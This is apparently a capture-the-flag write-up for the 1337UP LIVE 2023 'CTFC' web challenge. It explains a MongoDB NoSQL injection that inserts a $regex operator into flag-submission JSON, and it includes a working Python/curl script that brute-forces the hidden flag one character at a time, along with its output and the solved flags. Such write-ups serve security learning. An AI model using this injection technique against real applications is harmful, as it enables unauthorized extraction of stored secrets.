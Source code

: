 ```yaml
---
title: 1337UP LIVE CTF-Web
date: 2023-11-18 
categories: [Writeups, 1337UP LIVE CTF 2023]
tags: [CTF,Web,easy]
---
```


## CTFC
### Description
<sup>Author: Jopraveen</sup><br>
I'm excited to share my minimal CTF platform with you all, <br>take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.*}

`https://ctfc.ctf.intigriti.io` <br>
[CTFC.zip](https://github.com/0xSirawit/Capture-The-Flag-Events/raw/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/CTFC.zip)
### Solution
![CTFC1](<https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc1.png>)
![CTFC2](<https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc2.png>)
After I loged in and played around in the website. It seem like when I submited a flag, The website show me `correct flag` in alert box.<br>
Let's look at the source code which I got from the challenge. Maybe we get some more infomation.

```py
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})
```

There is the third challenge that hide from us. and there is a comment in `app.py` said `# wait untill mongodb start then create the challs in db`, This is **mongodb** and they use `find_one()` function to check the flag in the database. 

```
chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

After I searched info about mongodb and find_one() function.
We can inject [`$regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/) query operator in https request.

![CTFC4](https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc4.png)
The idea is **brute force characters** in the third challenge (_id=3) until it is the right character in the flag. If we get `correct flag!`, we will append the character to the payload and use that to continue brute forcing the next character until we get all of the flag characters.<br>
**Example**:
```
First payload: {"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{<bruteforcing>.*}"}}
# 'h' get 'correct flag!' response so append 'h' in the payload: INTIGRITI{h<bruteforcing>.*}
Second payload: {"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{h<bruteforcing>.*}"}}
# '0' get 'correct flag!' response so append '0' in the payload: INTIGRITI{h0<bruteforcing>.*}
# And so on until we get '}' charecter.
``` 

We know the idea, The Next step is to make a script to do the stuff for us.

```py
import subprocess
testcase = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}"
data = '{"_id":"_id:3","challenge_flag":{"$regex": ".*"}}'
flag = 'INTIGRITI{'
while True:
    for i in testcase:
        data = '{"_id":"_id:3","challenge_flag":{"$regex": "' + flag+i + '.*"}}'
        result = subprocess.run(['curl','-s', '-X','POST','https://ctfc.ctf.intigriti.io/submit_flag','-b','session=eyJ1c2VyIjp7Il9pZCI6ImFjNDBiZDkzYzA2YTQ5ZWViOTVkOWIxZWRkNmIzYjRkIiwidXNlcm5hbWUiOiJ0ZXN0MTIzNCJ9fQ.ZVg2YQ.OwxwhpJzlPsuXH9uuTrLEPNZQQo', '-d', data, "-H" ,'Content-Type: application/json'], stdout=subprocess.PIPE)
        if "correct" in result.stdout.decode(): flag = flag+i
    print(flag)
    if flag[-1] == '}': break 
print('The Flag:',flag)
```
**Result:**
```bash
$ python3 solve_ctfc.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
The Flag: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

> The Flag: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
{: .prompt-tip }